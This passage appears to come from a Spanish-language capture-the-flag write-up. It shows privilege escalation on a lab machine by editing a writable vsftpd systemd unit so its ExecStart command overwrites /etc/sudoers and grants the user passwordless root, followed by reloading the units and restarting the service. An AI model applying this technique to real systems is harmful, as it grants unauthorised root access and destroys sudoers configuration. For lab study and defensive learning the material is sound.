 ¡Y si! ¡Podemos editarlo!
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
drac@ide:~$ nano /lib/systemd/system/vsftpd.service
drac@ide:~$
```
Así que lo editamos para ejecutar un comando:
`ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'`


¡Este comando agregará nuestro usuario `drac` en el archivo `sudoers` para ejecutar todos los comandos como `root`!

Entonces, después de editar el archivo, debería verse así:
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
¡Excelente! Reiniciemos el servicio y recarguemos las unidades:
```bash
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
```
Después de esto, ¡podemos verificar si nuestro exploit funcionó!
